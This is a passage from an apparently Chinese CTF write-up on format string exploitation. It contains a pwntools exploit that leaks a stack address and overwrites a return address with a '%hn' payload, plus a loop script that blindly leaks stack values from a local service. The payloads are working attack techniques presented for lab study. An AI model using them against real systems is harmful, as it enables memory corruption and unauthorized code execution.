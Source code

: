 ```plain

p.sendline('%6$p')
p.recvuntil(">")

p.sendline("1")
p.recvuntil('\n')
tmp=p.recvuntil('\n')


ret_addr=int(tmp.decode(),16)-0x38
#leak('ret_addr',ret_addr)

p.sendline('2')
p.recv()
p.sendline(p64(ret_addr))
p.recv()
p.sendline('%2218d%8$hn')

p.recv()
p.sendline('1')
p.recv()

p.interactive()
```

[![](assets/1701612281-95e35e3904f4eff623ad5fd1782a959e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224018-0450253e-2579-1.png)

#### fmstr5

##### 盲打泄露栈

部署好环境之后，在自己本地 9999 端口起环境，尝试直接读取地址，

[![](assets/1701612281-a99d4b917b52313233cebcbfbbd8211e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224029-0ab558f4-2579-1.png)

显然是存在格式化字符串漏洞的，直接写一个循环

```plain
from pwn import *
context.log_level = 'error'

def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print(p64(int(data.deocde(), 16)))
    sh.close()
i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1
```
